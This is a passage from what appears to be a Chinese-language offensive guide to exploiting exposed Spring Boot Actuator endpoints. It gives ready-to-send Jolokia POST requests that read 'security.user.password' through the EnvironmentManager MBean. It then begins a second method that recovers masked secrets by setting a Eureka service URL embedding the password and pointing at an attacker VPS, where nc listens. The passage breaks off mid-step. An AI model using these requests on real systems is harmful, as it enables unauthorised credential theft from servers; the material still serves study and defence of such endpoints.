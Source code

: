 * 调用 `org.springframework.cloud.context.environment` Mbean

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

* 调用其他 Mbean

> 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。

#### 0x04：获取被星号脱敏的密码的明文 (方法二)

**利用条件：**

* 可以 GET 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
* 目标可以请求攻击者的服务器（请求可出外网）

**利用方法：**

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： 使用 nc 监听 HTTP 请求**

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80
```

**步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性**

将下面 `http://value:${security.user.password}@your-vps-ip` 中的 `security.user.password` 换成自己想要获取的对应的星号 \* 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x
